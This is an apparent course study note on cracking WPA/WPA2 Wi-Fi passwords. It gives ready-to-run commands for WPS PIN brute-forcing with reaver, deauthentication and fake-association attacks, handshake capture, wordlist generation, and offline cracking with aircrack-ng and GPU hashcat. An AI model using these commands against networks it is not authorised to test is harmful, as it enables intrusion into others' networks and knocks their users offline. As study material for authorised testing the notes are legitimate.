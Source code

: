 # Cracking the password of AP secured with WPA/WPA2

## WPS
- feature which can be enabled on WPA (for more security, don't enable)
- allows devices to connect without password
- authentication is done only by 8 digit pin
- Push Button Authentication (PBA)
  - Feature, where button needs to be pressed on router to make automatic connection

### Exploit WPS
- If PBA is activated, this won't work
- First enable monitoring mode as on 01_network_basics

```bash
wash --interface wlan0 # get all the networks that use WPS (mon0 is in monitor mode)
```

- now brute force the network password with `reaver`
    - -vvv is for showing as much information as possible
    - --no-associate is to not associate with target network, it is better to do it manually

```bash
reaver --bssid B0:95:75:42:26:E2 --channel 6 --interface wlan0 -vvv --no-associate
``` 

```bash
aireplay-ng --fakeauth 30 -a B0:95:75:42:27:E4 -h 5C:62:8B:76:74:1F wlan0 # associate with network (to not get ignored by network)
```

## Breaking WPA handshake
- Packets contain only data (no key or IV), therefor only handshake packets are useful

### Capturing handshake in WPA communication
- Capture handshake:
  - to speedup the process of capturing handshake, Deauthentication attack from 02_network_basics can be used.
```bash
airodump-ng --bssid B0:95:75:42:27:E3 --channel 5 --write wpa_hanshake wlan0 
# capture all the packets on network, if handshake is capture, airodump-ng will display the information
# use parameter "--band a" to capture only on 5GHz

aireplay-ng --deauth 4 -a B0:95:75:42:27:E3 -c 82:B2:61:31:A6:9B -D wlan0 # deauth attack
```

### Create wordlist using crunch
```bash
crunch [min] [max] [characters] -t [pattern] -o [Filename]
```

### Crack password from handshake with wordlist
- aircrack-ng unpack the handshake will be used to extract useful information from the handshake
- it will take password from word list and generate MIC (message integrity code)
- then it will compare MIC in the handshake with generated MIC

```bash
aircrack-ng test-01.cap -w crunch.txt
```
- wpa_handshake-01.cap : handshake file
- -w test.txt : our wordlist

### Crack password with GPU on Windows
- on 100 000 000 combination it came from 4,5 hours on AMD Ryzen 5 7600X to under 2 minutes on Nvidia rtx 3080
- download hashcat and all the necessary GPU drivers on their page (for Nvidia latest drivers and cuda tollkit)
- somehow hashcat doesn't work for me if no run in its location, probably didn't use relative paths
- first convert the captured handshake in .cap file into hashcat format on their webpage 

```bash
hashcat.exe -d 1 -m 22000 -w 3 --status -a 0 --hwmon-disable wpa_hanshake-01.hc22000 crunch.txt
```
- `-d` select device (for me 3080 was device one), to get all the devices run `hashcat.exe -I`
- `-m` hash type, currently wpa handshake is 22000
- `-w` workload profile => 1 Low, 2 Default, 3 High, 4 Headless
- `--status` enable automatic update of the status screen 
- `-a` attack mode => 0 Straight
- `--hwmon-disable` Disable temperature and fan speed reads and triggers (When graphic cards starts fans on 100% it triggers to stop the hashcat on my card, which happens right after starting the hashcat..)
- `wpa_hanshake-01.hc22000` converted cap
- `crunch.txt` wordlist


